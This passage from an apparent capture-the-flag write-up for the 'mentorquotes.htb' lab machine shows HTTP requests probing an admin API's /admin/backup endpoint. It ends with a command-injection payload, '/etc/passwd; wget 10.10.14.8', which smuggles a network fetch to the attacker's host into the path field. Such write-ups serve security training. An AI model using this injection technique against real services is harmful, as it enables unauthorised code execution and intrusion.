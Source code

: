 ```http
HTTP/1.1 200 OK
Date: Sun, 26 Feb 2023 16:37:07 GMT
Server: uvicorn
content-length: 83
content-type: application/json
Connection: close

{"admin_funcs":{"check db connection":"/check","backup the application":"/backup"}}
```

It showed 2 additional endpoints. I tried '/admin/check', the response said that it was not implemented yet.

I tried the '/admin/backup' endpoint. It required a path.

```http
POST /admin/backup HTTP/1.1
Host: api.mentorquotes.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
Content-type: application/json
Authorization: JWT
Content-Length: 27

{
"path": "/etc/passwd"
}
```

```http
HTTP/1.1 200 OK
Date: Fri, 03 Mar 2023 12:43:17 GMT
Server: uvicorn
content-length: 16
content-type: application/json
Connection: close

{"INFO":"Done!"}
```

I thought this might be creating backups through some command line, so I tried to get code execution.

```http
POST /admin/backup HTTP/1.1
Host: api.mentorquotes.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
Content-type: application/json
Authorization: JWT
Content-Length: 44

{
"path": "/etc/passwd; wget 10.10.14.8"
}
```